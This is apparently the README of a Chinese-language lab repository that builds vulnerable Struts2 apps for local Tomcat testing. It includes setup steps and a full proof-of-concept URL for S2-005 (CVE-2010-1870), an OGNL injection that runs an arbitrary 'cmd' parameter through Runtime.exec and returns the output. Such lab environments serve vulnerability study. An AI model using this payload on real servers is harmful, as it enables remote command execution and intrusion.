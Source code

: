 # 环境
Requires Java 1.8+ and Maven 3.x+

# 使用方法
1.下载
git clone https://git.oschina.net/0d/Struts2_bugs.git

2.查看远程分支
git branch -a

3.切换到分支
git checkout 分支名
如git checkout S2-005

4.打包
mvn clean package

5.部署在Tomcat中
将\target中生成的Struts2-005.war复制到Tomcat下的webapps目录中，然后开启Tomcat

访问http://127.0.0.1:8080/Struts2-005/index.action

# 相关信息

1.S2-005

CVE-2010-1870

影响版本：Struts 2.0.0 – Struts 2.1.8.1 

官方公告：http://struts.apache.org/docs/s2-005.html

POC:
http://127.0.0.1:8080/Struts2-005/index.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter("cmd"))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[1000]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)(('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd /c whoami
